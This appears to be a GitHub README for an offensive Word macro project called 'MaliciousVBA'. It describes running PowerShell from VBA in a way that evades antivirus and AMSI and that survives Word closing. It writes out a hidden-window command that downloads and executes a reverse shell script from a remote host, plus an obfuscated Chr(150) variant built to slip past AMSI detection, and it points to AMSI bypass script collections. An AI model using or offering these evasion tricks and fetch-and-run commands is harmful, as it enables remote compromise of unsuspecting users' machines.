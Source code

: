 # MaliciousVBA

I was reading various articles on how other go about bypassing AMSI using VBA. A great article can be found on this blog [codewhitesec](https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html).

Instead of trying to replicate that I chose a different route. I tried using the powershell command Invoke-Experession to download [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script.


## Running Powershell in VBA

In order to run powershell commands using VBA I have used the code published in Microsoft's Docs [here](https://docs.microsoft.com/en-us/office/vba/access/concepts/windows-api/determine-when-a-shelled-process-ends). The code is ideal for this project because it doesn't get flagged by the Antivirus or AMSI and also spawns a seperate process, which means that even if the user closes Word we won't lose our reverse shell (or whatevet the payload of choice is). 

## Powershell Command 
The command I wanted to run in this macro is the following:

```sh
Powershell.exe -WindowStyle Hidden IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')
```
This command was flagged by AMSI as malicious. After experimenting a bit with variations of this command i found out that the AMSI was flagging -WindowStyle as malicious. Splitting the string using conventional amsi bypassing techinques ("-W" + "indo" + "wStyle") was not effective. Instead I started replacing the '-' symbol with ascii character codes of the various "-" symbols. Finally Chr(150) did the trick and my reverse shell script was executed. 

The final form of the powershell command was:
```sh
Chr(112) + "ower" + "shell.exe " + Chr(150) + "WindowStyle Hidden" + "  IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')"
```
## Powershell script (Invoke-PowerShellTcp)
I have slightly modified [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script in order to avoid being detected by AMSI for powershell. Once connection is established an amsi bypass script can be used.[Here is a list of AMSI bypass scripts that can be used by S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
